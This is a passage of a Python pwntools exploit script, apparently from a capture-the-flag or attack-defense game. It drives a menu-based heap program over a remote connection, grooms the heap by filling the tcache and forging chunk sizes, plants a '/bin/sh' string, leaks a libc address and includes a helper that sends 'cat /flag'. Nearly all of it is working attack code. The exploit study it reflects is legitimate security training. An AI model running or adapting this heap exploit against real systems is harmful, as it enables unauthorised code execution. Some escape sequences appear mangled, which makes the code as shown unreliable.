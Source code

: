 ```
    if info != None:
        log.success(info + str(hex(return_address)))
    return return_address

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

def get_gdb(sh,gdbscript=None,stop=False):
    gdb.attach(sh,gdbscript=gdbscript)
    if stop :
        raw_input()

def Multi_Attack():
    # testnokill.__main__()
    return

def creat(sh,chunk_size,value):
    sh.recvuntil('Your choice: ')
    sh.sendline('1')
    sh.recvuntil('Size:')
    sh.sendline(str(chunk_size))
    sh.recvuntil('Data:')
    sh.sendline(value)

def show(sh,index):
    sh.recvuntil('Your choice: ')
    sh.sendline('2')
    sh.recvuntil('Index:')
    sh.sendline(str(index))

def delete(sh,index):
    sh.recvuntil('Your choice: ')
    sh.sendline('3')
    sh.recvuntil('Index:')
    sh.sendline(str(index))

def Attack(sh=None,ip=None,port=None):
    if ip != None and port !=None:
        try:
            sh = remote(ip,port)
        except:
            return 'ERROR : Can not connect to target server!'
    try:
        # Your Code here
        creat(sh,0x480,'Chunk_0')
        creat(sh,0x78 ,'Chunk_1')
        creat(sh,0x4F0,'Chunk_2')
        creat(sh,0x20 ,'/bin/shx00')
        delete(sh,0)
        delete(sh,1)
        for i in range(9):
            creat(sh, 0x78 - i, 'A' * (0x78 - i))
            delete(sh,0)
        creat(sh,0x78,'B' * 0x70 + p64(0x480 + 0x10 + 0x70 + 0x10))
        delete(sh,2)
        creat(sh,0x480,'Chunk_0')
        show(sh,0)
        libc.address=get_address(sh=sh,info='LIBC ADDRESS --&gt; ',start_string='',end_string='n',offset=0x00007f77c161e000-0x7f77c1a09ca0)
        creat(sh,0x78 ,'Chunk_1')
        delete(sh,0)
        delete(sh,2)
```